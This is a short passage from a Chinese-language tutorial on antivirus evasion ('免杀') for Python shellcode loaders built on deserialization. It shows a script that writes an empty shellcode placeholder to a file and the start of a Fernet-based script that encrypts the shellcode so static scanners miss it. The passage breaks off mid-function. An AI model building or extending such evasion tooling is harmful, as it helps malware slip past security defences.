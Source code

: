 ![image-20221119225217122](Python反序列化免杀/image-20221119225217122.png)

![image-20221119225258224](Python反序列化免杀/image-20221119225258224.png)



# 加密后的反序列化免杀

## 项目代码

### GenerateShellcode.py

```python
shellcode = b''

with open('shellcode.txt','wb') as f:
    f.write(shellcode)
```



### encrypt.py		

```python
#对静态文件进行加密
from cryptography.fernet import Fernet

def EncryptTXT(filename):
    with open(filename,'rb') as file:
        key = Fernet.generate_key()
        f = Fernet(key)
        enc_pay = f.encrypt(bytes(bytearray(file.read())))

    with open("Encrypt_shellcode.txt",'w+') as file:
        file.write(enc_pay.decode())
        #print('加密完成,加密后的文件为Encrypt_shellcode.txt,加密key={}'.format(key))
    return key

def EncryptICO(filename):
    with open(filename, 'rb') as file:
```
